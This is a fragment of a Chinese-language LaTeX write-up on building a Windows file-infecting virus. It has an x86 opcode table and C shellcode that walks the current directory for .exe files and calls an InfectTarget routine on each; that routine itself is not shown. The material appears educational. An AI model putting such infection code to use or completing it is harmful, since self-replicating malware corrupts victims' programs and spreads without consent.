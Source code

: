 \documentclass[UTF8]{ctexart}
\begin{document}
\begin{table}[h]
\centering
\begin{tabular}{|c|ccc|}
\hline
                      & 操作码    & 助记符    & 描述   \\ \hline
                      & 05 id     & ADD EAX, imm32  & {Add imm32 to EAX} \\
\multirow{-2}{*}{add} & 83 /0 ib  & {ADD r/m32, imm8} & {Add sign-extended imm8 to r/m32} \\ \hline
                      & 8B /r     & {MOV r32,r/m32} & Move r/m32 to r32. \\
\multirow{-2}{*}{mov} & 8A /r     & {MOV r8,r/m8}   & {Move r/m8 to r8.} \\ \hline
\end{tabular}
\caption{x86 add和mov指令详解}
\label{tab:add and mov}
\end{table}

    \subsection{传染目标程序}
    \label{sec:infect}
    \subsubsection{使用 Find 系列 API 遍历目录}

    FindFirstFile 和 FindNextFile 系列的 API 本质上是文件搜索而不是文件遍历。因此，在利用其进行文件检索时，需要指定清楚检索的条件和目标，不能简单的传入目录名:

    \begin{lstlisting}[language=C, caption={遍历目录下的可执行文件}, captionpos=b]
__forceinline void ShellCodeMain(SCSB *sb) {
    // find exe in cwd
    CHAR search[6] = {'*', '.', 'e', 'x', 'e', 0};
    WIN32_FIND_DATAA findData;
    HANDLE hFind = FindFirstFileA(search, &findData);
    if(hFind == INVALID_HANDLE_VALUE) return;
    // iterate files
    LPWIN32_FIND_DATAA lpFindData = &findData;
    do {
        HANDLE hf = OpenTargetA(sb, lpFindData->cFileName);
        if(hf == NULL) continue;
        InfectTarget(sb, hf);
        CloseHandle(hf);
    } while(FindNextFileA(hFind, lpFindData));
    FindClose(hFind);
    return;
} 
    \end{lstlisting}

    类似的，希望查找 txt 文件时，需要改成 *.txt。路径也可以使用绝对路径。不过，查找得到的文件结构 \lstinline{WIN32_FIND_DATA} 中只有文件名和八字符短文件名，不会含有文件的位置等信息。
\end{document}
